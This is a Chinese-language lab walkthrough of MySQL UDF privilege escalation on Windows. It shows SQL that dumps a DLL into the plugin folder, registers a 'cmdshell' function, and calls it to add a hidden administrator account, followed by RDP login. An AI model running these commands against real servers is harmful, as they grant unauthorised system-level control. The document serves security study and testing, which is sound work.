## udf 提权

MySQL提供了一个让使用者自行添加新的函数的功能，这种用户自行扩展函数的功能就叫udf。

原理：**利用了root 高权限，创建带有调用cmd的函数的udf.dll动态链接库。**接下来可以利用 system权限进行提权操作。

### 场景

Windows下，在较低版本的mysql(<5.6)安装时默认是系统权限。还有就是很多人图方便，例如使用了各种集成环境，未做安全设置，直接用高权限账户进行站点配置，就可以考虑用UDF进行提权。

### 漏洞利用前提

1. 必须是root权限(此账号必须有对mysql的insert和delete权限以创建和抛弃自定义函数(MYSQL文档原语)。)

2. ```secure_file_priv=```(未写路径)

3. 将udf.dll文件上传到MySQL的plugin目录下(这里以MySQL>=5.1为例)


## 测试环境

php：5.4.45

phpmyadmin：3.5.8.2

mysql：5.5.53

Apache

原生无plugin文件夹


## 步骤


使用了“小新udf提权工具”。


1、通过数据库账号密码登陆（可以通过读取配置文件获取账号密码）



2、确保```secure_file_priv```为空（不为null）



3、确保存在plugin文件夹



4、点击导出udf，将导出的dll存到plugin目录下



SQL语句: select '0xUDFCODExxxxxx' into dumpfile 'C:/phpStudy/PHPTutorial/MySQL/lib/plugin//M4ster.dll'

pcap见**udf-out.pcap**

也可以自定义路径导出udf 

pcap见**udf-out-2.pcap**

5、点击创建cmdshell



作用，把 “M4ster.dll”中的自定义函数 cmdshell 引入进来。

SQL语句:create function cmdshell returns string soname 'M4ster.dll'

 

pcap见**udf-new-cmdshell.pcap**

6、可以进行提权操作了



点击“利用cmdshell添加超级管理员”

这一步是在演示，调用自定义函数。

SQL语句:select cmdshell('net user cool$ asd@@123.. /add & net localgroup administrators cool$ /add')



pcap见**udf-net-user.pcap**

7、看到开放3389端口



8、使用凭据远程登陆

 


## reference

[SQL学习 之 into outfile 和 into dumpfile](https://blog.csdn.net/u014029795/article/details/105222309)

[udf提权原理详解](http://t.zoukankan.com/litlife-p-9030673.html)

[UDF手工提权辅助](https://blog.csdn.net/somnuszhigang/article/details/88640063)

[udf提权小结](https://www.cnblogs.com/xishaonian/p/6016486.html)

[高版本mysql自定义dll提权_MySQL提权之udf提权(获得webshell的情况)](https://blog.csdn.net/weixin_34194520/article/details/113191390)

## 后记

首先判断mysql版本：

MySql < 4.1:

允许用户将任何的DLL文件里面的函数注册到MySql里。

MySql 4.1-5.0：

对用来注册的DLL文件的位置进行了限制，通常我们选择 UDF导出到系统目录

C:/windows/system32/来跳过限制。

mysql版本 < 5.2 , UDF导出到系统目录c:/windows/system32/  (另一种说法是MySql >=5.1: 这些DLL只能被放在MySql的plugin目录下。)

mysql版本 > 5.2 ，UDF导出到安装路径MySQL\Lib\Plugin\

编写dll文件的hex code用的开源的。


 